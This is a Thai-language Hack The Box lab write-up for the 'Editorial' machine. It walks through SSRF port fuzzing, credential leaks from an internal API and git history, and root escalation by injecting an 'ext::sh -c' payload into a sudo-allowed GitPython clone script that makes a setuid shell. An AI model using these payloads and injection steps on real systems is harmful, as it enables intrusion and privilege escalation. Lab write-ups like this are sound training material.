 ## Host Scan

```bash
./scan.sh 10.10.11.20                                
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-15 09:06 +07
Nmap scan report for 10.10.11.20
Host is up (0.040s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 14.13 seconds

```

![[Challenge/HTB Challenge/Editorial/IMG/001.png]]

```bash
nc -lvnp 80
```

หากสำรวจเว็บจะพบว่ามีหน้า Publish with us ที่สามารถใส่ URL และสามารถ Upload ไฟล์ได้ ซึ่งหากลองทดอสอบใส่ข้อมูลตามภาพแล้วกด Preview จะพบว่ามี Connection ตอบกลับมาที่ nc ที่ได้ตั้งไว้ 
![[Challenge/HTB Challenge/Editorial/IMG/002.png]]

![[Challenge/HTB Challenge/Editorial/IMG/003.png]]

จากนั้นไปดูข้อมูลของ Request และเปลี่ยนข้อมูลเป็น 127.0.0.1 พบว่ามีการใช้งาน API  หลังบ้าน 
![[Challenge/HTB Challenge/Editorial/IMG/004.png]]


หากทดสอบ upload ข้อมูลผ่านช่อง url โดยเปิดให้สามารถ download ได้จะพบว่าสามารถ Upload ไปที่ API ปลายทางได้ 

![[Challenge/HTB Challenge/Editorial/IMG/005.png]]

จากข้อมูลดังกล่าวเป็นการโจมตีรูปแบบ SSRF ซึ่งเราจำเป็นต้องหาให้ได้ว่า Port ใดที่มีช่องโหว่ โดยเราสามารถนำ Request มาแก้ไขดังต่อไปนี้ 

```http
POST /upload-cover HTTP/1.1
Host: editorial.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------1612695082257348977393033666
Content-Length: 362
Origin: http://editorial.htb
Connection: keep-alive
Referer: http://editorial.htb/upload
Priority: u=0

-----------------------------1612695082257348977393033666
Content-Disposition: form-data; name="bookurl"

http://127.0.0.1:FUZZ
-----------------------------1612695082257348977393033666
Content-Disposition: form-data; name="bookfile"; filename=""
Content-Type: application/octet-stream


-----------------------------1612695082257348977393033666--

```

## SSRF API Fuzzing 
จากนั้น save ข้อมูลดังกล่าวเป็นไฟล์ ssrf.request เพื่อนำไป Fuzzzing สำหรับหา Port ที่มีช่องโหว่ 

```bash
ffuf -u http://editorial.htb/upload-cover -request ssrf.request -w <( seq 0 65535) -ac -c 
```

![[Challenge/HTB Challenge/Editorial/IMG/006.png]]

จากตัวอย่างจะเห็นได้ว่า Port 5000 มีช่องโหว่ ซึ่งหากเราทดสอบ Request ด้วย http://127.0.0.1:5000 และนำข้อมูลที่ตอบกลับไปรันด้วยคำสั่ง crul จะพบการตอบกลับมาดังต่ไปนี้ 

![[Challenge/HTB Challenge/Editorial/IMG/007.png]]

เราสามารถตรวจสอบโดยการนำข้อมูลไปใส่ในช่อง URL: http://127.0.0.1:5000 จะได้ข้อมูล API มาด้านล่าง

![[Challenge/HTB Challenge/Editorial/IMG/008.png]]

หากทดสอบโดยใช้ URL ที่ได้จากก่อนหน้า เช่น http://127.0.0.1:5000/api/latest/metadata/messages/authors  เราก็จะได้ข้อมูลกลับมาตามภาพด้านล่าง 

![[Challenge/HTB Challenge/Editorial/IMG/009.png]]

ซึ่งจากข้อมูลนี้ทำให้เราได้ User และ password ดังนี้ 

## Cred.txt leak 

```
Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.

Your login credentials for our internal forum and authors site are:
Username: dev
Password: dev080217_devAPI!@
Please be sure to change your password as soon as possible for security purposes.

Don't hesitate to reach out if you have any questions or ideas - we're always here to support you.

Best regards, Editorial Tiempo Arriba Team.


dev:dev080217_devAPI!@
```


## PWN to SSH 

จากนั้นนำข้อมูลที่ได้ไปทดสอบเข้าด้วย SSH 
![[Challenge/HTB Challenge/Editorial/IMG/010.png]]

เมื่อเข้ามาจะพบกับ Folder App ที่มีไฟล์ .GIT

```
git log 
```

จากตัวอย่างจะเห็นได้ว่ามีข้อความเกี่ยวกับการ Downgrade ของระบบอยู่ 

![[Challenge/HTB Challenge/Editorial/IMG/011.png]]

ให้ทำการเปรียบเทียบ version ของทั้ง 2 Commit 

```
git diff b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae 1e84a036b2f33c59e2390730699a488c65643d28
```

![[Challenge/HTB Challenge/Editorial/IMG/012.png]]

จากข้อมูลจะเห็นได้ว่า มีข้อมูลของ Credential หลุดไป 

```
nUsername: prod
Password: 080217_Producti0n_2023!@
```

![[Challenge/HTB Challenge/Editorial/IMG/013.png]]

จากนั้น sudo -l จะพบว่ามีไฟล์ /opt/internal_apps/clone_changes/clone_prod_change.py 

```bash
prod@editorial:~$ sudo -l
[sudo] password for prod: 
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
prod@editorial:~$ cat /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
prod@editorial:~$ 

```

![[Challenge/HTB Challenge/Editorial/IMG/014.png]]


https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858

จากข้อมูลช่องโหว่ จะพบว่าเราสาารถแทรก Payload ได้ 

```python
from git import Repo
r = Repo.init('', bare=True)
r.clone_from('ext::sh -c touch% /tmp/pwned', 'tmp', multi_options=["-c protocol.ext.allow=always"])
```

จากนั้นให้ทดสอบแทรก Payload ดังกล่าวเพิ่มเติม 
```bash
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c touch% /tmp/pwned' 
```


![[Challenge/HTB Challenge/Editorial/IMG/015.png]]

จากตัวอย่างจะเห็นว่าเราสามารถใช้คำสั่ง touch สำหรับสร้างไฟล์ pwned บน /tmp ได้ 

## Privilege Escalation 

ต่อไปเราจะทำการสร้าง shell เพิ่อยกระดับสิทธิเป็น root โดยให้เราใร้าง Payload สำหรับรัน /bin/sh ในสิทธิ  root


```bash
echo -e '#!/bin/bash

cp /bin/sh /tmp/ice
chown root:root /tmp/ice
chmod 6777 /tmp/ice'

echo -e '#!/bin/bash

cp /bin/sh /tmp/ice
chown root:root /tmp/ice
chmod 6777 /tmp/ice' > /dev/shm/ice.sh 

chmod +x /dev/shm/ice.sh

### RUN PAYLOAD 
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c /dev/shm/ice.sh'

/tmp/ice -p 

```

# PWNED 
```